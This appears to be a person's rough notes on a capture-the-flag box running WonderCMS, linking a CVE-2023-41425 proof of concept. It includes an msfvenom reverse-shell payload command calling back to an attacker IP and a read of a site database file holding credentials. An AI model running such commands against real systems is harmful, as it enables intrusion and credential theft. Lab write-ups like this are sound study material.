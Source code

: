 ![[Pasted image 20240816222201.png]]

**NOTHING IS WOKRING!!!!** 😢

## Time to look at Ben's Hints 😥
Basically he says keep looking at the website and it's code 😒
### Nikto

![[Pasted image 20240817083644.png]]

### Checking out the code

literally searching github for various lines from the code
![[Pasted image 20240817083717.png]]

![[Pasted image 20240817083732.png]]

So its running WonderCMS.... which has a few CVEs 💰

https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413#file-cve-2023-41425-md

HOLY FUCKING COW... WTF... LEARN TO READ.. AND DO WHAT IS SAYS... NOT EVERYTHING IS A VARIABLE 😂

I seen this in the exploit ![[Pasted image 20240817210849.png]] and thought it meant I needed to discover the 'loginURL' alas i was wrong. That literally is the login url 🤣

## Foothold
Actual fucking POC that works
https://github.com/insomnia-jacob/CVE-2023-41425
![[Pasted image 20240817220745.png]]
![[Pasted image 20240817220728.png]]


## Get a better 🐚
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.64 LPORT=31337 -f ELF > shell

files the other users own
![[Pasted image 20240817222651.png]]

### back to the beginning
lets go back to the beginning, where we landed, and enumerate from there. usually there is something in the vasinity of where you land on a box and i probably overlooked it. also this shells sucks ass so when i try to do finds i'm unable to scroll up and see everything. i tried a meterpreter session but i crashed metasploit... 

cat /var/www/sea/data/database.js
![[Pasted image 20240817222910.png]]
